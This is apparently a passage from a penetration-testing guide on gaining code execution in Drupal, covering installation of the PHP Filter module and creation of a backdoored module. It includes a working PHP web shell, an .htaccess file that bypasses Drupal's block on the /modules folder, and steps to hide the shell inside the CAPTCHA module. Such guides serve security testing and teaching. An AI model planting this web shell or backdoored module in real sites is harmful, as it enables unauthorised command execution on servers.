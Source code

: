 <figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Finally just access the newly created node:

```bash
curl http://drupal-site.local/node/3
```

#### Install PHP Filter Module

From version **8 onwards, the** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module is not installed by default**. To leverage this functionality, we would have to **install the module ourselves**.

1. Download the most recent version of the module from the Drupal website.
   1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Once downloaded go to **`Administration`** > **`Reports`** > **`Available updates`**.
3. Click on **`Browse`**`,` select the file from the directory we downloaded it to, and then click **`Install`**.
4. Once the module is installed, we can click on **`Content`** and **create a new basic page**, similar to how we did in the Drupal 7 example. Again, be sure to **select `PHP code` from the `Text format` dropdown**.

#### Backdoored Module

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.
